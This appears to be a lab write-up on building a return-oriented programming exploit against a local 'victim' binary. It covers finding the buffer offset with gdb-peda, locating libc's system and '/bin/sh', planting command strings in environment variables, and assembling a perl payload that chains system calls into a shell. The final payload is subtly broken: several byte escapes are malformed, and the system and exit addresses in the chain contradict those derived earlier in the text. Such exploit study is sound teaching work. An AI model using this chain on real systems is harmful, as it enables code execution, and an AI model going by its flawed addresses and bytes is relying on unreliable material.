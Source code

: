 # Return Oriented Programming

## Logistics

1. libc system address: **0x2aaaaad16590**

2. libc exit address: **0x2aaaaad0c1e0**

3. "/bin/sh" address: **0x2aaaaae50543**

4. white space in hex representation is
 **x20**

### Find the offset from buff to RET

We need to understand how many bytes of junk do we have to fill before getting to the return address of `foo`.

We use gdb-peda for this purpose:

```
gdb-peda$ pattern create 400 ptn.txt
gdb-peda$ r < ptn.txt
gdb-peda$ x/s $rsp
0x7fffffffe538:	"AcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAP\006@"
gdb-peda$ pattern offset AcAA2AAHAAdA
AcAA2AAHAAdA found at offset: 56
```

The distance we need to fill up is 56 bytes.

### Interesting way to find "system" in libc

Here is an alternative way to find `system` in libc without the help of gdb.

Use `ldd` to find the shared library dependencies.

```bash
$ ldd victim
```

gives us
```bash
libc.so.6 =>/lib/x86_64-linux-gnu/libc.so.6(0x00007ffff7c29000)
```

Then we search for the 'system' symbol in the file:

```
$ nm -D /lib/x86_64-linux-gnu/libc.so.6 | grep '\<system\>'
0000000000046590 W system
```

Therefore the offset of 'system' symbol in libc is 0x0000000000046590, and by using 'i proc mapping' we get to konw the starting address of libc is **0x2aaaaacd0000**.

Hence the address is:

```
0x2aaaaacd0000 + 0x0000000000046590 = 0x2aaaaad16590
```

### Other Payloads

We know that "ifconfig" and "whoami" must be loaded into environment beforehand. So we would need white space sled for both of them.

Add the following lines into ~/.profile:

```bash
export ROP1=$(perl -e 'print "\x20"x100, "ifconfig"')
export ROP2=$(perl -e 'print "\x20"x100, "whoami"')
```

Again, using GDB we get to know there address:

ifconfig: **0x7fffffffee13**
whoami: **0x7fffffffeeab**

## Find ROP gadgets

`system` takes in rdi as its argument, hence we would be looking for some gadgets such that it pops the stack into rdi, and returns.

Running ropper, we found such gadget:

```bash
$ ropper -f victim | grep rdi
0x00000000004006b3: pop rdi; ret;
```

## Construct ROP Chain

We would like to do the following tasks in sequence:

```
1. Load the address of "ifconfig" from stack into rdi;
2. Return to "system";
3. Load the address of "whoami" from stack into rdi;
4. Return to "system";
5. Load the address of "/bin/sh" from stack into rdi;
6. Return to "system";
7. Load some random value into rdi;
8. Return to "exit";
```

We know the following:

1. ROP gadget address:  0x00000000004006b3
2. system address:      0x00007ffff7a57590
3. exit address:        0x00007ffff7a4d1e0
4. /bin/sh address:     0x00002aaaaae50543
5. ifconfig address:    0x00007fffffffee13
7. whoami address:      0x00007fffffffeeab

Our payload would therefore be:

```
perl -e 'print "A"x56, "\xb3\x6\x40\x0", "\x0\x0\x0\x0", "\x13\xee\xff\xff", "\xff\x7f\x0\x0", "\x90\x75\xa5\xf7", "\ff\7fa\x0\x0", "\xb3\x6\x40\x0", "\x0\x0\x0\x0", "\xab\xee\xff\xff", "\xff\x7f\x0\x0", "\x90\x75\xa5\xf7", "\xffx7f\x0\x0", "\xb3\x6\x40\x0", "\x0\x0\x0\x0", "\x43\x5\xe5\xaa", "\xaa\x2a\x0\x0", "\x90\x75\xa5\xf7", "\ff\7fa\x0\x0", "\xe0\xd1\xa4\xf7", "\xff\x7f\x0\x0"'
```